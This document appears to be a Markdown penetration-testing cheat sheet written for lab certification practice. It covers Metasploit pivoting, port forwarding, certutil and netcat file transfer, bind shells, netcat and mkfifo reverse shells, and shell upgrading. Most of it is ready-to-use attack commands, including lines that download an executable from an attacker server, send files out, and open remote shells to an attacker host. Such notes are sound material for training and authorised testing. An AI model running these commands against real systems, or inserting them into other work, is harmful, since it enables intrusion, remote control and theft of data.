 # Tricks & Co


# Summary

- [Pivoting](#pivoting)
  - [Meterpreter](#meterpreter)

- [File Transfer](#file-transfer)
  - [Certutil (Windows)](#certutil-windows)
  - [Netcat](#netcat)

- [Bind Shell](#bind-shell)

- [Reverse Shell](#reverse-shell)
  - [Netcat](#netcat-1)
    - [Basic](#basic)
    - [Mkfifo](#mkfifo)

- [Upgrading Shells](#upgrading-shells)


# Pivoting

IF YOU PIVOT, TRY OTHER PAYLOAD LIKE BIND !!

## Meterpreter 

Write UP : [Medium](https://medium.com/@0xMat10/netbios-hacking-ecppt-lab-89ccd871f125)

If you have a meterpreter session, you can pivot with the `autoroute` script :

```bash
meterpreter > run autoroute -s 10.2.30.72/20

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.2.30.72/255.255.240.0...
[+] Added route to 10.2.30.72/255.255.240.0 via 10.2.27.151
[*] Use the -p option to list all active routes
meterpreter >
```

Where `10.2.30.72` is the IP Address accessible only on the network.
Where `/20` is the subnet. Run `ipconfig/ifconfig` on the host to check.

Then, you need to setup a socks proxy :
```bash
# Background your session :
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) >

# Use the following Metasploit Module :
msf6 exploit(windows/smb/psexec) > use auxiliary/server/socks_proxy

# Set options :
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050 # Default ProxyChains port
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
VERSION => 4a
msf6 auxiliary(server/socks_proxy) > exploit
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/socks_proxy) >
```

Finally, use **ProxyChains** to use tools like **Nmap**, ... :
```bash
proxychains -q nmap -p445 demo1.ine.local -Pn -sT
```

**USE `-sT`. IF YOU USE SYN SCAN, IT WILL DISPLAY FILTERED !!!**

**Alternative to autoroute script** : 
```bash
# Metasploit Module :
use post/multi/manage/autoroute

# Set options :
set SESSION <ID>
set NETMASK 255.255.240.0
set SUBNET <IP>
set CMD add
```

You will have this message :
```bash
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against ATTACKDEFENSE
[*] Adding a route to 10.2.30.72/255.255.240.0...
[+] Route added to subnet 10.2.30.72/255.255.240.0.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) >
```

## Port Forwarding 

With your meterpreter session, you can forward a remote port : 
```bash
meterpreter > portfwd add -l 10022 -p 22 -r 192.168.0.12
```

Where  :
	- `-l` : Your local port
	- `-p` : Remote port *(Target)*
	- `-r` : Remote host *(Target)*


# File Transfer


## Certutil (Windows)

You can download a file with the `certutil.exe` software :
```cmd
certutil.exe -urlcache -f http://<YOUR-SERVER>/file.exe bad.exe
```

## Netcat

On the target :
```bash
nc -l -p 1234 > out.file
```

Attacker :
```bash
nc -w 3 <IP> <PORT> < file.txt
```

*Works on both Windows and Linux.*


# Bind Shell

When the attacker connect itself to the target.

Target :
```bash
# Windows : 
.\nc.exe -lvnp 1234 -e cmd.exe

# Linux :
nc -lvnp 1234 -e /bin/sh
```

Attacker :
```bash
nc -vn <IP> <PORT>
```

# Reverse Shell

## Netcat

### Basic

Setup a listener with :
```bash
nc -lvnp 1234
```

Connect to attacker with : 
```bash
# Linux :
nc -e /bin/sh <IP> <PORT>

# Windows :
.\nc.exe -e cmd.exe <IP> <PORT>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


# Upgrading Shells

- Spawn interactive shell :
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
export SHELL=bash
```
